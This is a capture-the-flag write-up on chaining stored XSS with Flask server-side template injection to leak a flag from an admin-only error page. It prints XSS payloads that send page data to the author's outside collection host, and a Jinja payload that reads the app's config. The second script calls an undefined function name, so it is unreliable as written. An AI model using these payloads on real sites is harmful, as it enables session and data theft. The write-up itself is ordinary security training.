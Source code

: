 ﻿## SBBS (Web, 250p)
	tl;dr use xss to get a 404 error page and then use template injection to get the flag

We're given the source code of a sever that uses flask. The flag is hardcoded into the source but it's not used anywhere, so we either have to steal the source files or somehow extract it from the program.

The site itself allows us to write posts, which are then viewed by the admin. XSS almost immediately comes to mind

A quick check: (You can grab the source code of /catch [here](https://gist.github.com/nazywam/5d164f1969491e2067f17b3c61329040))

```javascript
<script type="text/javascript">
window.open ('http://nazywam.xyz/catch?','_self',false)
</script>
```

Confirms it:

![scr1](scr1.png)

It's worth noticing, that this ip matches the ip of the service, so the admin can access the server locally.

However, we're not able to get the files using that, same-origin-policy prevents us from making a request for the same domain but using a different protocol like "file://"

It turns out, that the responses to error messages are vulnerable to a [template injection](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

```python
@app.errorhandler(404)
def not_found(e=None):
    message = "%s was not found on the server." % request.url
    template_string = template % message
    return render_template_string(template_string, title=title_404), 404
```

We have almost complete control over request.url and can inject a template, like `{{ variable }}`

The problem is, `http://52.78.86.97:8080/somepagethatdoesntexist` returns nginx error pages instead of flask ones.

As it later turned out, flask used his error pages only for specified addresses, including 127.0.0.1 ;)

No problem! We use our xss to get the page as localhost:

```javascript
<script>
function hack(url, callback){
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function(){
        if (xmlhttp.readyState == 4){
			window.open ('http://nazywam.xyz/catch?'+xmlhttp.responseText,'_self',false)
        }
    }
    xmlhttp.open("GET", url, true);
    xmlhttp.send();
}

callAjax("/{{ FLAG }}")
 
</script>
```


Unfortunately, we can't acces FLAG directly but only [template globals](http://junxiandoc.readthedocs.io/en/latest/docs/python_flask/flask_template.html#global-variables-within-templates) and they don't have references to app class. 

The breakthrough was finding the function `config.from_object("admin.app")`, with it, we can finally access the app and then the flag.

Because `config.from_object()` only updates `config`, we have to print the flag separatly, so the final payload is:

`{{ config.from_object('admin.app') }} {{ config.FLAG }}`

![scr2](scr2.png)

###Congratz, to the author(s), that was a great chall! If only we got it 4 minutes earlier ;) ###
